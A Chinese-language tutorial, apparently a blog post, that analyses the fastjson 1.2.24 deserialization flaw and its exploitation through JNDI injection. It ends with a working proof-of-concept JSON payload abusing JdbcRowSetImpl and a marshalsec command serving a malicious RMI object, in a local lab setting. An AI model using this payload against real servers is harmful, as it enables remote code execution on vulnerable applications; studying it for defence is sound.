

### 0x01 前言

前一章简单介绍了jndi注入的知识，这一章主要是分析一下fastjson 1.2.24版本的反序列化漏洞，这个漏洞比较普遍的利用手法就是通过jndi注入的方式实现RCE，所以我觉得是一个挺好的JNDI注入实践案例。


#### 0x02 fastjson反序列化特点

不同于我们之前提到的java反序列化，fastjson的序列化有其自身特点，我们通过一些小demo来展示如何使用fastjson。我们常说的fastjson的序列化就是将java对象转化为json字符串，而反序列化就是将json字符串转化为java对象。

- fastjson 序列化demo:

```java
import com.alibaba.fastjson.JSON;

public class Test {
    public static void main(String[] args){
        User user = new User();
        user.setName("axin");
        user.setAge(18);

        String json = JSON.toJSONString(user);
        System.out.println(json);
    }
}
```

其中User类如下：

```java
public class User {
    private int age;
    public String name;
    public void sayHello(){
        System.out.println("Hello, I am "+name);
    }
    public void getName(){
        System.out.println(name);
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

运行Test类，就会得到如下json字符串：


- fastjson 反序列化demo


fastjson反序列化有个特点，就是会自动调用目标对象的setXXX方法，例如{"name","axin", "age": 18}被反序列化时会自动调用对应对象的setName以及setAge方法，我们用代码实践一下，看看是否的确如此

修改一下User类：

```java
public class User {
    private int age;
    public String name;
    public void sayHello(){
        System.out.println("Hello, I am "+name);
    }
    public void getName(){
        System.out.println(name);
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
        System.out.println("调用了setAge");
    }

    public void setName(String name) {
        this.name = name;
        System.out.println("调用了setName");
    }
}
```

然后新建一个反序列化的类：

```java
import com.alibaba.fastjson.JSON;

public class JsonToObj {
    public static void main(String[] args){
        String str = "{\"age\":18,\"name\":\"axin\"}";
        User user = JSON.parseObject(str, User.class);
    }
}
```

运行该类，得到如下结果，说明反序列化的过程中确实调用了setXXX方法：


其实fastjson反序列化是有两个api的，一个是上面demo中用到的parseObject()还有一个是parse()方法，他们的最主要的区别就是前者返回的是JSONObject而后者返回的是实际类型的对象，当在没有对应类的定义的情况下，通常情况下都会使用JSON.parseObject来获取数据。

而且在直接使用JSON.parseObject()方法反序列化json字符串的时候是不会调用对应对象的setXXX方法的，那么怎么才能让直接使用JSON.parseObject()反序列化的对象也调用setXXX方法呢，答案是利用@type属性，来看下对比：


可见加了@type属性就能调用对应对象的setXXX方法，那这个@type属性具体是干嘛的呢?其实从上面的demo应该也能得知一二了，就是指定该json字符串要反序列化到哪个类。这个属性让我们的漏洞利用如鱼得水～

> ps: fastjson反序列化默认只能反序列化公共属性，如果想要对应的私有属性也被反序列话，则需要下面这样添加一个Feature.SupportNonPublicField参数：
> `JSON.parseObject(myJSON, User.class, Feature.SupportNonPublicField);`


### 0x03 fastjson反序列化——JNDI攻击向量

有了上面的知识铺垫，大家应该能够想到怎么利用fastjson的反序列化执行命令了吧?就是利用@type属性以及自动调用setXXX方法，如果我们能够找到一个类，而这个类的某个setXXX方法中通过我们的精心构造能够完成命令执行不就行了嘛~

`com.sun.rowset.JdbcRowSetImpl`就是这么一个类，这个类中有两个set方法，分别是setDataSourceName()与setAutoCommit(),我们看一下相关实现：

setDatasourceName

```java
    public void setDataSourceName(String name) throws SQLException {

        if (name == null) {
            dataSource = null;
        } else if (name.equals("")) {
           throw new SQLException("DataSource name cannot be empty string");
        } else {
           dataSource = name;
        }

        URL = null;
    }
```

setAutoCommit

```java
    public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

这里的setDataSourceName就是设置了dataSourceName,然后在setAutoCommit中进行了connect操作，我们跟进看一下

```java
    protected Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

可以看到这里connect方法中有典型的jndi的lookup方法调用，且参数就是我们在setDataSourceName中设置的dataSourceName。

具体的代码就先不分析了，fastjson反序列化的流程大概就是先进行json数据的解析，我个人认为这个分析是个体力活，一步一步调试就行了，就没必要再写出来了。然后我们现在知道了上面两个setXXX方法有问题，怎么构造poc呢？如下就行：

`{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://127.0.0.1:1099/Evil", "autoCommit":true}}`

可见dataSourceName的值为我们恶意的rmi对象，之前我们都是自己写代码注册rmi对象的，现在介绍一个线程的部署rmi服务的工具：

https://github.com/mbechler/marshalsec

需要自己用maven工具生成jar包，使用说明中有介绍，我们用该工具快速搭建一个rmi服务器，并把恶意的远程对象注册到上面，使用如下命令：

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8000/#Evil`

其中我们的恶意对象是放在本地的一个运行在8000端口的web服务上的（我们可以用python快速搭建一个web服务器）

弹个计算器




